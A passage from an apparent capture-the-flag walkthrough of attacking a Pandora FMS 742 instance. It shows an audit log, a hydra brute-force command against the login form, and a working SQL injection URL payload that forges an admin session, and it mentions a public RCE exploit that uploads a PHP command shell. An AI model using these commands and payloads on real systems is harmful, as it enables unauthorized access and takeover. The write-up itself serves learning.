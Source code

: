 I read the code to the site, trying to find flaws in the login or API code. I checked the logs that were in the same folder. 

```bash
$ cat audit.log
2021-06-11 17:11:48 - admin - Logon - 192.168.220.11 - Logged in
2021-06-11 17:28:54 - admin - User management - 192.168.220.11 - Created user matt
2021-06-11 17:29:06 - admin - User management - 192.168.220.11 - Updated user matt
2021-06-11 17:29:21 - admin - User management - 192.168.220.11 - Added profile for user matt
2021-06-11 17:29:43 - admin - User management - 192.168.220.11 - Added profile for user matt
2021-06-11 17:29:56 - matt - Logon - 192.168.220.11 - Logged in
2021-06-16 23:24:12 - admin - Logon - 127.0.0.1 - Logged in
2021-06-16 23:24:40 - admin - User management - 127.0.0.1 - Updated user admin
2021-06-16 23:24:57 - admin - User management - 127.0.0.1 - Updated user matt
2021-06-17 00:09:46 - admin - Logon - 127.0.0.1 - Logged in
2021-06-17 00:11:54 - admin - User management - 127.0.0.1 - Created user daniel
2021-06-17 00:12:08 - admin - User management - 127.0.0.1 - Added profile for user daniel
2021-06-17 21:10:18 - N/A - No session - 127.0.0.1 - Trying to access without a valid session
2021-06-17 21:10:28 - N/A - No session - 127.0.0.1 - Trying to access without a valid session
2021-06-17 21:10:44 - matt - Logon - 127.0.0.1 - Logged in
```

This gave some potential usernames, so I tried to bruteforce the loging. 

```bash
$ cat users.txt 
admin
matt

$ hydra -l users.txt -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t64 -m '/pandora_console/index.php?login=1:nick=^USER^&pass=^PASS^&login_button=Login:incorrect' localhost http-post-form
```

I left that run for a while with no success. 

I went back looking at the site and saw the version number 742. I tried searching for 'Pandora FMS 742 exploit'. The first result was a [post on vulnerabilities found in Pandora FMS 742](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained). The next one was a [repository with a script exploiting the vulnerabilities](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated). The script exploits an SQL Injection vulnerability in the way sessions are handled in some files to login as the admin user. Then it gets remote code execution by uploading a PHP file that executes commands passed in the `test` parameter and accessing the file. 

I did the exploit manually to be sure I understood it better. First I navigated to `http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20-`. It gave me a blank page, but when I went back to the index page, I was logged in as admin. 
